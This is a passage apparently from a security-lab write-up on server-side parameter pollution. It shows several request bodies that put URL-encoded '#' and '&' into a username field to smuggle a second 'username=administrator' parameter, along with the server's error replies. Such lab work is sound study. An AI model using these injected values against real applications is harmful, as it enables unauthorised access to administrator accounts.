 output: {"error": "Field not specified."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%23

![alt text](image-16.png)

output: {"error": "Field not specified."}


input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%23username=administrator

![alt text](image-19.png)

output: {"error": "Field not specified."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%26username=administrator
